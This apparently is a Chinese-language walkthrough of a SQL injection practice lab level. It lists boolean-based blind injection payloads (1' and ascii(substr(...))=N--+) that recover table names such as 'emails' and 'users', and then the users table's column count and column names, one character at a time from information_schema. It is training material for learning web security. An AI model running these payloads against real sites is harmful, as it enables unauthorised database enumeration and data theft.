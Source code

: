 > 1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101--+
- 第一个表第一个字符ascii为101，为e
> 1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=109--+
- 第一个表第二个字符ascii为109，为m，完整得到emails
> 1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1))=8--+
- 第二个表长度为8
> 1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=114--+
- 第二个表第一个字符ascii码为114，为r
> 1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 1,1),2,1))=114--+
- 第二个表第二个字符ascii码为114，为e
最后得到四个表

![](./img/lv5.png)
- 我们选择users列进行爆破,首先判断有多少列
> 1' and (select count(column_name) from information_schema.columns where table_name='users')=15--+
- users表一共有15列，接下来判断每一列长度
> 1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1))=7--+
- 第一列长度为7
> 1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=117--+
- 第一列第一个字符ascii码为117，为u
> 1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),2,1))=115--+
- 第一列第二个字符ascii码为115，为s
>1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 1,1),1))=10--+
- 第二列长度为10
> 1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 1,1),1,1))=102--+
- 第二列第一个字符ascii码为102，为f
> 1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 1,1),2,1))=105--+
- 第二列第二个字符ascii码为105，为i，最后爆得

![](./img/lv5.1.png)
